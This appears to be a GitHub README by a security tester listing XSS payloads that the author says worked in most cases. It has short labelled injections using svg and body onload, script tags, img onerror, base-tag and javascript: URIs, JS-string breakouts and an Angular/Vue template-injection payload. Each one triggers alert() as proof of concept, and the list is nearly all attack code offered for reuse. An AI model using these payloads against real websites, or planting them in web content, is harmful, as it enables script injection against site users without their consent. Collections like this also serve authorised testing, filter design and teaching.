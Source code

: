 <h1> 🚀Most Common Working Payloads </h1>
<h2> This is list of XSS Payloads that worked in most cases for me </h2>

``` "><svg/onload=alert(1)>``` - Length bypass Svg Payload </br>
``` "><script>alert(1)</script>``` - Basic XSS Payload with script tag </br>
``` <div onmouseover="alert(document.domain);">``` - Onmouseover XSS Payload </br>
``` <IMG SRC="javascript:alert('XSS');">``` - Image XSS Directive Payload </br>
``` </style><script>a=eval;b=alert;a(b(/XSS/.source));</script>``` - Style Special Combination </br>
``` "><img src=x onerror=alert(1)>``` - Typical Image XSS Payload </br>
``` {{constructor.constructor(`alert(1)`)()}}``` - This is technically CSTI, but it is escalated to XSS for better Impact. It works mostly on Angular/Vue Applications. You can explore more about Template Injections on Internet </br>
``` <BODY onload=alert(1)>``` - Body Payload </br>
``` <BASE HREF="javascript:alert('XSS');//">``` - XSS with Base Tag </br>
``` &apos;-alert(1)-&apos;``` - Injecting alert inside HTML tag + HTML Encoding </br>
``` <IMG SRC=javascript:alert(&quot;XSS&quot;)>``` - Image Payload with HTML Entities </br>
```'-alert(1)-'```
```\';alert(document.domain)//``` - Inject Alert inside JS String </br>
```javascript:alert(1)``` - Works in many ways and combination, also can help escalating Open Redirect to XSS </br>
```http://www.<script>alert(1)</script .com```

<h2>by Kira Reys </h2>
<p> XSS is really common vulnerability nowadays on web. This was list of some Payloads that workod in most cases for me. Thank you for your attention! ✨</p>
